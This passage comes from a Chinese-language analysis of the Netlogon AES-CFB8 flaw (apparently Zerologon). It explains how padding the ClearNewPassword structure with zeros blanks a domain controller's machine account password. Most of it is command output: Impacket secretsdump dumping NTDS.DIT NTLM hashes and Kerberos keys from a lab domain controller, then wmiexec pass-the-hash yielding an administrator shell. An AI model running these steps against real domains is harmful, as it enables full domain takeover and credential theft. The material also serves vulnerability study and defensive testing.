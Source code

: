 ```
WIN-NI3V5MRI9L6$:aes128-cts-hmac-sha1-96:e527f5d9b2c73fc70e86b197a30a1124
WIN-NI3V5MRI9L6$:des-cbc-md5:8ad05d169b01c431
[*] Cleaning up...

```

现在再来回顾一下漏洞模式，由于我们可以走到这里，说明客户端和服务端直接已经协商出了给定输入 00 就可以得到 AES 块加密结果第一个字节为 00 的 SessionKey，如果我们给出 516 个 00，那么 8 位 CFB 模式 AES-128 加密的结果也是 516 个 00。我们将 ClearNewPassword 结构填充为 516 个 00 ，这样系统在解密的时候得到的结果也是 516 个 00，这样密码的长度字段就被解析为 0，账户密码被置空。

```
➜ Desktop python3 secretsdump.py 'WIN-NI3V5MRI9L6$@192.168.147.222' -no-pass
Impacket v0.9.22.dev1+20200924.183326.65cf657f - Copyright 2020 SecureAuth Corporation
 
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d6ff87a3a1f9e671efea338c4fc53e65:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f15c5d3dc5d24c3587e19ed2bade3e29:::
yyyyyyyyt:1001:aad3b435b51404eeaad3b435b51404ee:d6ff87a3a1f9e671efea338c4fc53e65:::
WIN-NI3V5MRI9L6$:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:1358483816cf1723cb1c084bf1833dcd7d72cfb07cd383408ba238306ea6b580
krbtgt:aes128-cts-hmac-sha1-96:de0d4bda473745a0a696b13c69f4584f
krbtgt:des-cbc-md5:b60bfbb06ba42562
yyyyyyyyt:aes256-cts-hmac-sha1-96:dd34bd0d9a4adb2a7f0cb35f0033035b0cdae21197a41147a7b07ed0681a5a7c
yyyyyyyyt:aes128-cts-hmac-sha1-96:f46c8f546161b1082cd11d6db1c48aa4
yyyyyyyyt:des-cbc-md5:fdfbb9f170a279f4
WIN-NI3V5MRI9L6$:aes256-cts-hmac-sha1-96:a7a4115912de25275fbaf5a2649a1c740dd0657346b9bb5a3ad1997c1266668c
WIN-NI3V5MRI9L6$:aes128-cts-hmac-sha1-96:98e16ee761764038de64317273db40ef
WIN-NI3V5MRI9L6$:des-cbc-md5:ae45a864687f8c8f
[*] Cleaning up...

```

然后可以使用 wmiexec 拿到域控制器中的本地管理员权限（后面恢复密码的操作就不介绍了，教程很多）：

```
➜  examples git:(master) ✗ python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d6ff87a3a1f9e671efea338c4fc53e65 Administrator@192.168.147.222
Impacket v0.9.22.dev1+20200924.183326.65cf657f - Copyright 2020 SecureAuth Corporation
 
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
strawberry\administrator

```

### 测试
